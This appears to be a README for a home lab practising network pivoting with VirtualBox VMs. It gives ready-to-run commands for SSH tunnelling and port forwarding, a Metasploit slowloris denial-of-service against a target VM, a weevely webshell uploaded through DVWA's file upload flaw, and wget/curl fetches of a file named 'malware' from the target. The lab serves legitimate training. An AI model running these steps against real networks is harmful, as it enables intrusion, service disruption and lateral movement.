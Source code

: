 # NM-Lab-Network-pivoting

This is a Lab for practicing network pivoting.

## Prerequisite

### Network architecture

The following is our network settings for doing this Lab.

#### Local (Attacker)
* OS : MacOS or Kali Linux  
* IP : 192.168.2.105 (For example) (Connect with Internet)

#### VirtualBox VM1 (SSH Server)  
* OS : Ubuntu server 20.04  
* (Adapter1 橋接網路卡Bridge enp0s3) IP : 192.168.2.113 (For example)  
* (Adapter2 內網Internal enp0s8) IP : 192.168.1.1 (For example)  

#### VirtualBox VM2 (Target Machine)
* OS : Ubuntu server 20.04.2 or Kali Linux  
* (Adapter2 內網 enp0s8) IP : 192.168.1.100 (For example)

#### VirtualBox VM3 (Optional)
* OS : Metasploitable2 (For running DVWA)  
(You can also install DVWA on the target machine, but it is quite a long process for installing DVWA alone.)  
(I personally take this as my guideline to install DVWA https://medium.datadriveninvestor.com/setup-install-dvwa-into-your-linux-distribution-d76dc3b80357)
* (內網 eth0) IP : 192.168.1.101 (For example)  

Step 0 :  
下載然後導入ubuntu server到VirtualBox  
https://ubuntu.com/download/server  

Step 1 :  
完成VirtualBox的網路介面卡設定  
確認連接內網的網路卡擁有相同的名稱  

Step 2 :  
登陸兩(三)台要連接內網的VM之後，使用  
$ ifconfig -a  
確認內網網路卡的名稱 (In our case, enp0s8)  
然後使用指令  
$ sudo ifconfig enp0s8 192.168.1.1 netmask 255.255.255.0 up  
開啟網路卡  
192.168.1.1 可以自己設定 (不同的機器要不同 192.168.1.1 192.168.1.100 in our case)  
不過注意每一次開機都要設定  

這樣即完成網路設定  
可以用ping或ifconfig指令確認  

### Enviroment & Installation

#### Local (Attacker)
Ssuttle (For pivoting)  
https://github.com/sshuttle/sshuttle  
Nmap (For scanning)(option)  
https://nmap.org/book/inst-macosx.html  
Metasploit (For using slowloris DOS attack exploit module)  
https://www.metasploit.com    

#### VirtualBox VM1 (SSH Server)  

SSH service need to be installed  
HTTP service (Apache web service) need to be installed  
root account for sshuttle  
normal user account for port forwarding  

#### VirtualBox VM2 (Target machine)

ssh service need to be installed  
http service (Apache web service) need to be installed  

## Ways of Pivoting
To confirm the results of pivoting, a http server has been hosted on target machine at port 8000 using `python -m SimpleHTTPServer`. We can use `http://192.168.1.100:8000` to connect it from internal network  

### sshuttle  

Open terminal  
`$ sshuttle -r user@192.168.2.113 192.168.1.0/24`  
Need root privilege for both local and the ssh server  

### Dynamic port forwarding
On pivot (SSH server):  
`$ ssh user@192.168.2.113 -D 127.0.0.1:21000 -N`  
You can use any available port on localhost  

### Reverse remote port forwarding
#### Attacker
Step 1 :   
Create a new dedicated user  
```
$ sudo useradd sshpivot --no-create-home --shell /bin/false  
$ sudo passwd sshpivot  
```
Step 2 :  
Add `/bin/false` to `/etc/shells`  

Step 3 :  
`sudo systemctl restart ssh`  

Step 4 :  
Request http://127.0.0.1:14000 to reach http://192.168.1.100:8000 after pivot connected  

#### Pivot (SSH server)
`$ ssh sshpivot@192.168.2.105 -R 127.0.0.1:14000:192.168.1.100:8000 -N`  

## Ways of Attack

### DOS

Open terminal  
Run metasploitable  
Somewhere in the /opt/metasploit-framework/bin/ if you are using MacOS (High Sierra) like me  
`$ ./msfconsole`  
(Some configurations if first time use)  
```
msf6 > search slowloris  
msf6 > use auxiliary/dos/http/slowloris  
msf6 auxiliary(dos/http/slowloris) > options  
msf6 auxiliary(dos/http/slowloris) > set sockets 200
```
(the number of `sockets` doesn't really matter)
```
msf6 auxiliary(dos/http/slowloris) > set rhost 192.168.1.100  
msf6 auxiliary(dos/http/slowloris) > run  
```

Now you should see it working !!!  

可以在target machine上下指令確認有沒有被DOS  
`$ systemctl status`  

### Reverse shell
Use DVWA's file upload vulnerability to open a reverse shell (webshell). [Reference](https://medium.com/blacksecurity/557d6392eefe)  

Step 1 :  
`weevely generate %password% %~/shell.php%`  

Step 2 :  
Upload `shell.php`  

Step 3 :  
`proxychains weevely http://192.168.1.101/dvwa/hackable/uploads/shell.php %password%`  

Note that we must use `proxychains` to connect with proxy. Add `socks4 127.0.0.1 21000` to `/etc/proxychains4.conf`.  

### Downloading other malwares


* From internal network  
  There is a file called malware on VM2 (target machine), we want to download it from other machine in local area network. We can use commands like  
  `$ wget http://192.168.1.100:8000/malware`  
  or  
  `$ curl -O http://192.168.1.100:8000/malware`  

* From external network  
  If target machine can access external network, we can use similar command as above. If target only has access to internal network, "reverse pivoting" to connect to attacker. However, reverse pivoting might not success if we use the webshell we described previously.  
